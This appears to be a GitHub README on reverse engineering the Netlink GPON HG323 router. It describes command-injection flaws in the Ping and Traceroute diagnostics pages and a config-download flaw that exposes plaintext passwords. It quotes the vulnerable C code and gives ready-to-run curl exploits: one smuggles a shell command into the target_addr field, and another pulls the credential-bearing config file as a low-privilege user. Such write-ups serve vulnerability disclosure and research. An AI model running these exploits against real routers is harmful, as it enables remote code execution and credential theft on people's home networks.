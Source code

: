 # Reverse Enginneer Netlink GPON HG323  router 

An attempt to reverse engineer Netlink hg323 router to find vulnerablities.

## Firmware : 1.0.16-191118

## RCE
Remote code can be executed by  exploiting either of the daignostics tool "Ping" or "Tracert". Inorder for this to work we should be logged in either as "user" or "admin"

### 1. formPing

vulnerable code


* snprintf(cmd_to_execute,0x100,"ping %s -c 4 -I %s -w 5 %s > /tmp/ping.tmp",param,interface_name,target_addr);


Here we can supply the "target_addr" with  "; payload"

exploit 

curl -s -L -d 'target_addr=1.1.1.1+;+ls&waninf=1_INTERNET_R_VID_' 'http://192.168.1.1/boaform/admin/formPing'


### 2. formTracert

similar to formPing

vulnerable code

* snprintf(cmd_to_execute,0x200,"traceroute %s -I -i %s %s > /tmp/tracert.tmp",param,&some_param,target_addr);

exploit

curl -s -L -d 'target_addr=1.1.1.1+;+ls&waninf=1_INTERNET_R_VID_' 'http://192.168.1.1/boaform/admin/formTracert'

## Dumping creds
We can use the rce exploit to view "/var/config/lastgood.xml" to view passwords or

There are two usernames for the web app
"user" and superuser "admin".
we can abuse the save  config file feature of admin  to get the config file while logged in as "user"

of course the passwords are stored in plain text.


exploit 


curl -s -L -d 'action=saveconfigfile&submit-url=' 'http://192.168.1.1/boaform/admin/formMgmConfig'







